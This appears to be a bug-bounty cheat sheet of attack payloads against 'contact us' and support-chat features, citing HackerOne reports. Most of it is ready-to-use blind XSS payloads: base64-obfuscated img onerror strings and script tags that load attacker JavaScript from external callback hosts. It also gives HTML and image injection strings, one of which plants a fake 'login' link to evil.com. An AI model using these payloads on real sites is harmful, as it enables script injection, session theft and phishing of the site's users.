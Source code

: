 # Contact us

### [**There is no rate limit for contact-us endpoints**](https://hackerone.com/reports/856305)

## [**Blind XSS on image upload support chat**](https://hackerone.com/reports/1010466)

### **blind XSS**

* ```haml
  "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
  '"><script src=//xss.report/s/M8SZT8></script>
  "><script src="https://js.rip/l5j9hbki0b"></script>
  "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
  ```

### **HTML injection**

* ```haml
  <Https://evil.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa>%20%22<b>hello</b><h1>hacker</h1><a Href='abc.com'>xxxx</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc
  ```

### **img injection**

```javascript
 "/><img src="x"><a href="[https://evil.com](https://evil.com)">login</a>
```

